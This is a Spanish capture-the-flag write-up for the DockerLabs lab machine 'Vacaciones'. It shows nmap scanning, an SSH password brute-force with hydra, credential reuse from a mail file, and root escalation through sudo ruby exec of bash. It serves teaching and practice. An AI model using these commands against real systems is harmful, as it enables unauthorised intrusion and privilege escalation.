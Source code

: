 # Máquina Vacaciones

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> @romabri -> [romabri](https://github.com/romabri)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4116eb546434d169eedcd9219c72a5c1 (RSA)
|   256 f0c42b02503a49a7a234b80961fd2c6d (ECDSA)
|_  256 dfe946319aef0d81311f77e429f5c988 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Al inspeccionar la web encontramos ese comentario en el código fuente:

![Pasted image 20240425184410](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1525b762-1c0b-4d91-a142-fc3fed1ae569)

--------------
## Explotación

Utilizamos hydra con los usuarios **camilo** y **juan** al **ssh**:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

Encontramos las credenciales de camilo -> **camilo:password1**

Nos conectamos como el usuario camilo y estamos dentro !

------------
## Escalada de privilegios

Revisamos el supuesto correo que nos indicaba en la web:

```shell
cd /var/mail
cd camilo
cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Probamos la contraseña con el usuario **juan** y funciona. -> **juan:2k84dicb**
Hemos migrado al usuario **juan**.

Hacemos un **sudo -l**

```shell
sudo -l
---------------------------------
User juan may run the following commands on b078e5dff54b:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

